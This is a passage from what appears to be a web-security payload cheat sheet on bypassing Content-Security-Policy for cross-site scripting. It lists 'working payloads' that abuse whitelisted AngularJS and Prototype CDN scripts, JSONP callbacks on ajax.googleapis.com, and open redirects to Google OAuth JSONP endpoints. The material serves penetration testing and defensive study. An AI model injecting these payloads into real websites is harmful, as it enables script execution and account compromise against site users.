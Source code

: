 Scenarios like this where `script-src` is set to `self` and a javascript library domain which is whitelisted can be bypassed using any vulnerable version of javascript file from that library, which allows the attacker to perform XSS. Working payloads:

```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.2/prototype.js"></script>
 
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.8/angular.js"></script>
<div ng-app ng-csp>
    {{ x = $on.curry.call().eval("fetch('http://localhost/index.php').then(d => {})") }}
</div>

"><script src="https://cdnjs.cloudflare.com/angular.min.js"></script>
<div ng-app ng-csp>
    {{$eval.constructor('alert(1)')()}}
</div>

"><script src="https://cdnjs.cloudflare.com/angularjs/1.1.3/angular.min.js"></script>
<div ng-app ng-csp id=p ng-click=$event.view.alert(1337)>
```

## Angular JS

```http
Content-Security-Policy: script-src 'self' ajax.googleapis.com; object-src 'none';
```

If the application is using Angular JS and scripts are loaded from a whitelisted domain is possible to bypass CSP policy by calling callback functions and vulnerable class. For more details visit this [link](https://github.com/cure53/XSSChallengeWiki/wiki/H5SC-Minichallenge-3:-%22Sh*t,-it's-CSP!%22). Working payloads:

```html
ng-app"ng-csp ng-click=$event.view.alert(1337)><script src=//ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js></script>

"><script src=//ajax.googleapis.com/ajax/services/feed/find?v=1.0%26callback=alert%26context=1337></script>
```

## Bypass using open redirect

```http
Content-Security-Policy: script-src 'self' accounts.google.com/random/ website-with-redirect.com; object-src 'none';
```

In this scenario are two whitelisted domains from where scripts can be loaded to the webpage. Now if one domain has any open redirect endpoint CSP can be bypassed easily. The reason behind that is an attacker can craft a payload using redirect domain targeting to other whitelisted domains having a JSONP endpoint. And in this scenario XSS will execute because while redirection browser only validated host, **not** the path parameters. Working payload:

```html
">'><script src="https://website-with-redirect.com/redirect?url=https%3A//accounts.google.com/o/oauth2/revoke?callback=alert(1337)"></script>">
```
